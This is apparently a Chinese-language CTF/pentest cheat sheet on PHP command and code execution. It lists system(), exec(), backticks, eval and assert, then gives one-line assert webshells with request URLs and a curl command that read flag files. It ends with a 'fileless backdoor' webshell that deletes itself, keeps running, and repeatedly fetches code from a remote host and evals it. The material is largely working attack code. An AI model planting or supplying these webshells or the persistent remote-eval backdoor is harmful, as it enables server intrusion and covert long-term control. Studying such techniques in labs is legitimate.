 ### 命令执行函数
system()
```
说明：执行外部程序并显示输出资料。
语法：string system(string command, int [return_var]);
返回值: 字符串
```
exec函数
```
说明：执行外部程序。

语法：string exec(string command, string [array], int [return_var]);

返回值: 字符串
```
反撇号`（和~在同一个键）
```
执行系统外部命令,代码如下:echo `dir`;

知识点：在使用这种方法执行系统外部命令时，你要确保shell_exec函数可用，否则是无法使用这种反撇号执行系统外部命令的。
```



#### 代码执行

eval函数中参数是字符，如：
```
eval('echo 1;');
```
assert函数中参数为表达式 （或者为函数），如：
```
assert(phpinfo()) 
```
这样：`assert(eval('echo 1;'));`，无法执行。

如：
```
<?php assert($_GET[1]);?>

http://172.16.2.234:8011/3.php?1=system(%22cat%20/flag.txt%22)
http://172.16.2.234:8011/3.php?1=print_r(file_get_contents(%22/flag.txt%22))
```

```
<?php assert($_REQUEST[1]);?>

curl "http://172.16.2.234:8011/4.php" -d "1=system('cat /flag*')"
de9d4919ce86aeb38a5332c7d1c4d24a
```
####

### PHP无文件后门：

php常驻内存的问题，想要将远程文件写入本地，并且让文件常驻内存中。
代码构想：
```
unlink($_SERVER['SCRIPT_FILENAME']); // 删除自身
ignore_user_abort(true); // 驻留进程，等待指令
set_time_limit(0); // 不关闭程序，保持连接
```

webshell.php
```
<?php
unlink($_SERVER['SCRIPT_FILENAME']);
ignore_user_abort(true);
set_time_limit(0);

$remote_file = 'http://182.168.2.2/file.txt';
while($code = file_get_contents($remote_file)){
  @eval($code);
  sleep(10);
};
?>
```

**`http://182.168.2.2/file.txt`**

```
file_put_contents('index.php','hello world '.time(),FILE_APPEND);
//FILE_APPEND追加写入
```


